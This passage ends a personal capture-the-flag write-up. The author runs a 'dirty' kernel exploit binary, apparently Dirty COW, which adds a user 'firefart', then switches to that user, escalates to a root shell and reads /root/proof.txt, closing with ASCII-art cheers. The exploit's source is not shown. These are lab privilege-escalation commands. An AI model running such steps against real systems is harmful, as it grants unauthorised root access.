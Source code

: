 Then run it:

```
./dirty Password1
```

This creates a new user `firefart` with password `Password1`. Let's try to login as that user:

```
su firefart
```

Now that we are firefart, let's try to gain root shell:

```
su -
```

And we have root shell! Now let's get the flag at `/root`:

```
cd /root
cat proof.txt
```

And this, ladies and gentlemen is the first time I cracked a machine without help from metasploit or someone's write-up. Yes, it's categorized as an easy machine. Yes, it took me 4-5 hours to pwn it, but I did it and never once have I looked inside a walkthrough or a write-up! Cheers:

```
                                       @                                        
                                       @                                        
                 @@                    @                                        
                  @@@                  @                                        
                    @@@                @                   @@                   
                      @@               @                 @@@                    
                        @@             @               @@@                      
                                                     @@@                        
                                                                                
                                                                                
                                                                                
                 @@@@@                                                          
                 @     @@@@@@@@                                                 
                @@              @@@@@@@                                         
               @@                     @@               @@@@@@                   
               @                      @@      @@@@@@@@@     @@                  
              @@                      @@@@@@@@               @@                 
             @@                       @@                     @@                 
             @@==                     @@                      @@                
             @---========-           @@@                       @                
            @@-------------========  @@@@                      @@               
            @@----------------------=@@@@                   ====@               
            @-----------------------%@ @@          -=======-----@@              
           @@-----------------------@@  @  ========-------------:@              
           @@-----------------------@   @@=----------------------@@             
           @@---------  -----------@@   @@-----------.  ---------@@             
           @@--------.   ----------@     @:----------   :---------@             
           @@---------------------@@     @@-----------------------@             
           @@--------------------@@       @:----------------------@@            
           @@--------------------@@       @@----------------------@@            
           @@------ .-----------@@         @@--------. .---  -----@@            
           @@---------  -------@@          %@-------------- ------@@            
           -@-----------------@@            @@--------------------@@            
            @@-----  --------@@              @@---------..--------@@            
            @@--------------@@                @@--------:.--------@@            
             @@------------@@                  @@-----------------@             
              @@---------@@                     @@---------------@@             
              @@@@ ---@@@@                       @@-------..-----@              
              @@==@@@@%@@                         @@@-----..----@@              
```
